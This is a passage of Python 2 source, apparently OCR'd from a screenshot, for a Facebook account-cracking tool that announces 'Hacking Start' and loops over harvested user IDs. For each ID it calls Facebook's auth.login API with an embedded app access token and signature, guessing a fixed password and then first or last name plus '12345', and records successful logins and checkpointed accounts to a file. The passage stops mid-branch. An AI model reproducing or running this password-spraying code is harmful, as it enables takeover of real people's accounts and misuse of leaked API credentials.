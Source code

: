 	print "\033[1;96m[+] \033[1;36mTotal ID \033[1;91m: \033[1;97m"+str(len(id))
	jalan('\033[1;32m[✺] \033[1;32mWorking✸ \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mHacking Start \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print('\x1b[1;31m[!] \x1b[1;31mStop CTRL+z')
	print 42*"\033[1;96m="
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('1234554321')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
					cek = open("out/super_cp.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name']+'12345'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
							cek = open("out/super_cp.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['last_name']+'12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q: